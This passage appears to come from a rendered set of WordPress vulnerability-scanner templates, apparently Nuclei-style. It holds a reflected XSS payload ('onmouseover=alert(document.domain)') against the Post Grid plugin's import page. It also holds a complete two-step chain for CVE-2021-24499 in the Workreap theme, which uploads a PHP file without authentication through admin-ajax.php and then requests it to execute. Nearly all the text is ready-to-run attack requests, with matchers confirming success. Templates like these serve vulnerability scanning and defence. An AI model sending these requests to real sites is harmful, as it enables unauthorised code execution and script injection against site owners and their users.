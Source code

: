 ```
log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/edit.php?post_type=post_grid&page=import_layouts&keyword="onmouseover=alert(document.domain)// HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. value="\"onmouseover=alert(document.domain)/">
    2. Post Grid
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress Workreap - Remote Code Execution
## Description
- WordPress Workreap theme is susceptible to remote code execution. The AJAX actions workreap_award_temp_file_uploader and workreap_temp_file_uploader did not perform nonce checks, or validate that the request is from a valid user in any other way. The endpoints allowed for uploading arbitrary files to the uploads/workreap-temp directory. Uploaded files were neither sanitized nor validated, allowing an unauthenticated visitor to upload executable code such as php scripts.
- severity - critical
- tags - cve,cve2021,rce,workreap,wpscan,wordpress,wp-plugin,intrusive,wp
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=------------------------cd0dc6bdc00b1cf9
X-Requested-With: XMLHttpRequest

-----------------------------cd0dc6bdc00b1cf9
Content-Disposition: form-data; name="action"

workreap_award_temp_file_uploader
-----------------------------cd0dc6bdc00b1cf9
Content-Disposition: form-data; name="award_img"; filename="{{randstr}}.php"
Content-Type: application/x-httpd-php

<?php echo md5("CVE-2021-24499"); ?>
-----------------------------cd0dc6bdc00b1cf9--

```
### Step - 2
```
GET /wp-content/uploads/workreap-temp/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```